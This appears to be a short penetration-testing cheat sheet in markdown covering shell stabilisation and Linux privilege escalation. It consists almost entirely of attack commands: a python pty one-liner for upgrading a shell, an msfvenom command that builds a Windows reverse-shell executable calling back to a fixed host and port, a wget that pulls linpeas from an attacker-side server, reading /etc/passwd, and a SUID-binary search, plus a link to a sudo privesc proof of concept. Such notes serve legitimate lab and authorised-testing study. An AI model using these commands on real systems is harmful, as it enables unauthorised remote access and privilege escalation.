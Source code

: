 # Interactive Shell 
[Reference](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
Get an interactive shell 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
export TERM=xterm
```


Hit CTRL + Z


```
stty raw -echo; fg
```

💡in case tty gets weird and line wrappy 💡
```
stty columns 136 rows 32
```

## MSFVenom

Create custom Windows reverse shell 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=445 -f exe > shell.exe
```
- Applications: service binary replacement, execute with RunasCs access, etc.
# Linux Privilege Escalation 

## Automated

Linpeas
```
wget http://10.10.14.10:3000/linpeas.sh
```
- `./linpeas.sh`

## Enumerate Users 

```
cat /etc/passwd | grep 'sh$'
```

Pagefile - `!/bin/sh`
Nginx/SUDO - [PoC](https://github.com/DylanGrl/nginx_sudo_privesc/tree/main)
## Find SUID Binaries 

```
find / -perm -4000 2>/dev/null
```
